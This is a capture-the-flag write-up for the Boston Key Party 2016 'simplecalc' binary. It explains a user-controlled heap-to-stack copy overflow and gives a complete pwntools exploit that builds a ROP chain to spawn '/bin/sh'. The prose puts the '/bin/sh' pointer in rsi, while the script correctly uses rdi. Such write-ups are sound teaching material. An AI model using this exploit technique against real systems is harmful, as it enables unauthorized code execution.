 ```yaml
---
title: Boston Key Part 2016 Simple Calc
author: megachar0x01
date: 2022-06-28
categories: [Pwn, amd64, Binary Exploitation, nightmare, module07]

---
```



Let's start reversing it with the main function first we see that a value is taken which is stored in the no_loops variable ( Int )  then it is used to create a loop, used as a size for allocating memory on the heap, and also use to control how much memory is to be copied from  heap to stack  then input is taken from user to select what type of function is to be executed (1. addition, 2. subtraction, 3. multiplication, 4. division and 5. copy memory from heap to stack ) after the loop is completely free is used to free up heap memory and program exits

<img src="https://i.imgur.com/MIHUwNT.png" alt="image_1">



##### Add function

In Add function, we can see that it takes 2 input and then store it in a global variable and then check if it is greater than 39 then it will add two values and store them in a third global variable, and then the exit function and if it is smaller than 39 than prints a msg and exit without doing anything

<img src="https://i.imgur.com/bd704CK.png" alt="image_2">


Rest of the function doing as the name suggests sub,mul, and divide but with the same restrictions as add function (check the value if its greater than 39)

Now we have a general view of the program let's start working on getting shell

The first vuln I can find is that the stack has limited space ( 40 bytes ) and the number of bytes to be copied is controlled by the user


**no_loops is controlled by user**

<img src="https://i.imgur.com/NmOuNTd.png" alt="img_3">




Now its time to fill the heap with values like its stack (because it will be placed on the stack ) for that we see that after the calculation function ( add, sub, mul, div) we can see that the global value is placed on the heap every time on a different address (because of for_loop multiplying by the address which is incrementing the address value )

Now its time to start working on the exploit first we start by padding . One important thing we will do is overwrite the heap pointer which will be used by the free function to free memory to bypass we will add that variable with "zero" so the free function closes without error and rest of padding till we control instruction pointer rest of is simple creating rope chain.


Now for rop chain our goal is to get shell so we can use sys_execv syscall (man execv ) to call "/bin/sh" for that we have to put the string "/bin/sh" in memory then put the memory pointer to rsi register we can put "0x0" in rest of register (rdi,rdx) and then put "0x3b" (which is number of sys_execv)   in rax and call syscall rop gadget and  u got a shell on the system (THis was the second-best challenge after sandbox escape )

```python
#!/usr/bin/python3

from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
break *main+518
continue
'''.format(**locals())

# break *0x0000000000401545



exe = "./simplecalc" ; elf = context.binary=ELF(exe,checksec=False)

rop= ROP(exe,checksec=False)

def menu(menu_no,menu_x,menu_y):
    io.sendlineafter(b"=>",menu_no)
    io.sendlineafter(b"Integer x: ",menu_x)
    io.sendlineafter(b"Integer y: ",menu_y)
    io.recvline()

def zero ():
    menu(b"2",b"2000",b"2000")

def format_f(fromat_value):
    x = int(fromat_value) - 50000
    menu(b"1",str(x),b"50000")
    zero()

def padd ():
    for x in range(18):
        zero()

#### ROP #############
mov_ptr_rax_rdx_ret = 0x000000000044526e # mov qword ptr [rax], rdx; ret; 
pop_rdi = 0x0000000000401b73
pop_rdx = 0x0000000000437a85
pop_rax = 0x000000000044db34
pop_rsi = 0x0000000000401c87
syscall = 0x00000000004648e5
bin_var = 0x6e69622f
sh_var = 0x68732f


######################


io = start ()

io.sendlineafter(b"Expected number of calculations: ",b"150")

padd ()
format_f(pop_rdx)
format_f(bin_var)
format_f(pop_rax)
format_f(0x6c0008)
format_f(mov_ptr_rax_rdx_ret)
format_f(pop_rax)
format_f(0x6c000c)
format_f(pop_rdx)
format_f(sh_var)
format_f(mov_ptr_rax_rdx_ret)
format_f(pop_rdi)
format_f(0x6c0008)
format_f(pop_rsi)
format_f(0x0)
format_f(pop_rdx)
format_f(0x0)
format_f(pop_rax)
format_f(0x3b)
format_f(syscall)


io.sendlineafter(b"=>",b"5")
io.interactive()
```

[![asciicast](https://asciinema.org/a/504622.svg)](https://asciinema.org/a/504622)
